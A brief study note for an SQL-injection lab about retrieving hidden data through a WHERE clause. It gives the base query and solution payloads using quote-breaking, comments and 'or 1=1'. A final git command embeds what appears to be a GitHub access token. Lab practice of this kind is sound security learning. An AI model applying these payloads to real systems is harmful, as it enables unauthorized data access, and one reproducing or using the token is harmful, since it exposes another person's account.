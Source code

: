 # Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
``` SELECT * FROM products WHERE category = 'Gifts' AND released = 1
 ```

 Soln--> SELECT * FROM products WHERE category = ' '  ' --+ AND released = 1

 SELECT * FROM products WHERE category = ' '  or 1=1  ' --+ AND released = 1


 git remote set-url origin https://robin113x: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@github.com/abc/WebSec.git
